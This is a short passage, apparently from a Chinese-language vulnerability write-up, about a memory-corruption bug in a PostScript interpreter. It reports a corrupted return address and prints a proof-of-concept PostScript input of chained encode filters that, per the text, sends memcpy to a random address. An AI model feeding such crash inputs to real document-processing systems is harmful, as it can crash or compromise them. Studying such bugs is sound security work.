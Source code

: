 [![](assets/1706771701-9c304426037b0f676a816cc7200f125d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202405-4b687928-bea1-1.png)

可以发现他造成了函数返回地址指向了一个无效的地址。

另一个 poc 注入如下：

```plain
() (1337leet) /FlateEncode filter /ASCII85Encode filter dup /TBCPEncode filter rootfont /CCITTFaxEncode filter rootfont /zlibEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /CCITTFaxEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCII85Encode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /ASCIIHexEncode filter rootfont /PSStringEncode filter /SHA256Encode filter closefile
```

这个 poc 导致了 memcpy 到运行到一个随机的地址
